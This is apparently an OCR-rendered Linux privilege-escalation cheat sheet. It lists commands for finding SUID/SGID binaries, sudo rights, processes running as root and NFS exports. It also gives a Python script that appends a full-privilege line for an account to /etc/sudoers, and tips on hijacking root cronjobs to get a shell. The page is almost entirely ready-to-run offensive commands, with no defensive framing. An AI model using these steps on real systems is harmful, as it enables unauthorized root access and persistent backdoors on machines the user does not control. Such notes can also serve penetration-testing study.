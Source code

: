 

# root access:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```

## services which are running as root
```
ps -aux | grep root
```

## check if web server runs as root
```
grep "localhost" ./ -R
```

# Add username to sudoers in python.
```
#!/usr/bin/env python

import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

## cronjob
If there is a cronjob that runs as root but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

## list processes running by root, permissions and NFS exports
```
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```
